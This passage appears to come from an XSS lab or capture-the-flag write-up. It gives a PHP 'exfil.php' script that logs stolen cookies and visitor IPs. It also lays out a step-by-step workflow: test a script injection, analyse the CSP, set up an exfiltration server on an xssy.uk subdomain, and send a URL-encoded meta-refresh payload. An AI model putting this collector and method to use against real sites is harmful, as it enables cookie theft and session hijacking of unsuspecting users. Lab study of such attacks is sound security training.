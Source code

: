 #### Simple PHP Server
```php
<?php
// exfil.php
$cookie = $_GET['c'] ?? 'No cookie';
$ip = $_SERVER['REMOTE_ADDR'];
$timestamp = date('Y-m-d H:i:s');

$log = "[{$timestamp}] IP: {$ip} | Cookie: {$cookie}\n";

file_put_contents('exfiltrated.log', $log, FILE_APPEND);

http_response_code(204);
?>
```

---

### 8️⃣ Testing Workflow

```
┌─────────────────────────────────────────┐
│ 1. Identify Injection Point            │
│    → Parameter: name                     │
│    → URL: target.ftl?name=              │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 2. Test Basic XSS                       │
│    → <script>alert(1)</script>          │
│    → Confirm script execution           │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 3. Analyze CSP                          │
│    → Check DevTools Network/Headers     │
│    → Identify missing directives        │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 4. Setup Exfiltration Server           │
│    → Deploy at eqh42jmm.xssy.uk         │
│    → Test server accessibility          │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 5. Craft Exfiltration Payload          │
│    → Start with Meta Refresh            │
│    → Test locally first                 │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 6. URL Encode Payload                   │
│    → Use online encoder or script       │
│    → Verify encoding correctness        │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ 7. Test Payload                         │
│    → Visit URL with payload             │
│    → Check server logs                  │
│    → Verify data received               │
└─────────────────────────────────────────┘
              ↓
```
